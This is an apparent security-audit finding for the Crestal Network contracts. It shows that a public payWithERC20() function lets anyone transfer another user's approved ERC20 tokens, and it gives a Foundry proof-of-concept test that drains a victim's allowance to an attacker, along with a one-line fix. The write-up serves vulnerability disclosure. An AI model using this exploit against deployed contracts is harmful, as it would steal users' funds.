 Loud Concrete Yak

High

# Attacker can steal all  tokens as a result of the payWithERC20() function being public

### Summary

The function `payWithERC20()` on payment.sol is used to facilitate payments when creating agents and when user makes a top up.
The bug happens because this function is exposed to the public and as such can be called by anyone. An attacker can call this function to steal any approved tokens from any address, since the attacker would be able to pass the `fromAddress` of their choice. 


### Root Cause

In [Payment.sol](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32) the function `payWithERC20` is exposed to the public
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32
Note this is a public function and as such anyone can call this function.
Making this function a public function is the issue as it allows anyone to invoke it


### Internal Pre-conditions

1. Victim has approved the contract to spend some of their tokens, which is common as we need approval to create agents

### External Pre-conditions

NA

### Attack Path

1. A user(ALICE) intends to interact with the contract in creating an agent
2. Alice decides to approve the contract to spend some of her tokens(to avoid doing this every time, ALICE approves max(uint256)
3. Attacker directly calls `payWithERC20()` passing ALICE address as the `fromAddress` and the ATTACKER address as the `toAddress` and Amount > 0
4. since all the checks would pass, ALICE balance would be transfered to Attacker

### Impact

An attacker can steal all approved tokens from a given user. Since the caller can pass any address as the `fromAddress`, the attacker can pass any arbitrary address and steal all the tokens

When creating agent's users approve the contract to spend some tokens, if a user approves the contract to spend more than what they would need to create the agent eg max approvals, the attacker can steal any amount that was approved and has not been used yet.

### PoC

Add the following test to 

```solidity
    function testStealApprovedTokens() public {
        uint256 validTokenAmount = 100 * 10 ** 18;
        address ALICE = makeAddr("ALICE");
        address ATTACKER = makeAddr("Attacker");
        mockToken.mint(ALICE, validTokenAmount);

        // Verify the mint
        uint256 balance = mockToken.balanceOf(ALICE);
        assertEq(balance, validTokenAmount, "sender does not have the correct token balance");

        // Approve the blueprint contract to spend tokens directly from the test contract
        vm.prank(ALICE);
        mockToken.approve(address(blueprint), validTokenAmount);

        // check allowance after approve
        uint256 allowance = mockToken.allowance(ALICE, address(blueprint));
        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");

        //log balances before
        console.log("alice balance before", mockToken.balanceOf(ALICE));
        console.log("attacker balance before", mockToken.balanceOf(ATTACKER));

        // test stealing after approval
        vm.prank(ATTACKER);
        blueprint.payWithERC20(address(mockToken), validTokenAmount, ALICE, ATTACKER);

        // check balance after stealing
        console.log("alice balance after", mockToken.balanceOf(ALICE));
        console.log("attacker balance after", mockToken.balanceOf(ATTACKER));
    }
```

The above test should result in the following

```solidity
[PASS] testStealApprovedTokens() (gas: 100398)
Logs:
  alice balance before 100000000000000000000
  attacker balance before 0
  alice balance after 0
  attacker balance after 100000000000000000000
```

### Mitigation

Simply making the function as an internal one would fix the issue

```diff
-    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
+    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {
```